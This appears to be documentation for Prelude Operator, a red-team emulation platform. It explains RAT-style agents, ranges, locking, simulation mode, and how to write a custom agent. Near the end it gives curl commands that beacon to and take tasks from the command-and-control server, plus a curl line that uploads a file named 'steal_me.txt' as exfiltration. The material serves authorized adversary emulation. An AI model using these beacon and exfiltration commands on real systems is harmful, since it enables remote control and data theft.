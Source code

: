 
# What is an agent

#### Remote Access Trojans

---

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor.
Agents beacon into Operator periodically to ask for instructions to run. Each agent is
automatically grouped into a range. Agents communicate to Operator through one of several network protocols, 
such as TCP, UDP, or HTTP.

### What is ThirdEye?

---

ThirdEye is a Node.js agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches
and beacons into your Home range with the username of the user running the desktop application. It only communicates
locally to Operator and is designed for testing TTPs out before deploying them in the wild. 
ThirdEye does not support reverse shells, nor can you delete this agent.

### What is Pneuma?

---

Our most popular open-source agent is called Pneuma, a Go agent which supports all major operating systems 
and 3 different protocols (TCP, UDP, HTTP). Pneuma is capable of executing nearly all TTPs and chains loaded into
Operator, along with built-in support for reverse shells (when connected over TCP).

### Additional agents

---

Prelude supports multiple script agents written in various languages. 
Some agents are designed for specific operating systems while others are multi-platform. 
You can find details about these agents in the main section, including download options to start using them.

### Agent ranges

---

Ranges are logical groupings of agents. For example, a range can be used to cluster agents from various platforms (darwin, 
linux, windows) in order to run a cross-platform chain against all the agents. Agents can be moved between ranges using 
either command line flags or the Update Config sidebar in the main section.

### Locking an agent

---

Lock an agent in order to approve or reject each instruction (TTP) before it is picked up and executed. 
When an agent is locked, all instructions will enter pending state where you can approve or reject them one at a time.

### Simulation mode

---

You can set agents to "Simulation Mode" via the agent config sidebar. Simulation mode will run TTPs using output data from
the Expected Output section of the TTP's man page. When you toggle this mode, the chain will run as normal, but not actually
execute tasks on the endpoint.

### Agent facts

---

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands.
You can interact with these facts by clicking into the Knowledge Store. You can supply an agent with new facts
manually or the agent can report facts itself through the Beacon object.
    
### Deleting an agent

---

When you delete a file-based agent, like Pneuma, the connection is stopped and the agent is archived - meaning
it will no longer show up inside Operator but the data remains in your workspace, if you need to restore it.
However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in
and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command.
You can do this by using the "Stop Agent Process" procedure. Run this, then delete the agent to completely block it.

### Build your own agent

---

You can write your own agent in any language easily. Follow this simple interface to do so. Hint: if you enable 
plain-text encryption in the Settings section you can copy the below commands 
into a terminal to get a real agent online. 
The required Beacon properties are: name, target, location, platform, executors, range, sleep.

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[],
    "Facts":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6"
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ],
    "Facts":[]
}'
``` 

### Additional options

Aside from sending beacons, an agent can also exfiltrate files back to Operator over HTTP(s).
Below is an example in cURL. The agent must supply the API token along with its name. Any
exfiltrated files will be stored in your agent's artifacts directory (in the Prelude workspace).

```shell
curl -X PUT "http://localhost:3391" -H "key: ${operator.session}" -H "agent: ${agent.name}" -F upload=@steal_me.txt
```
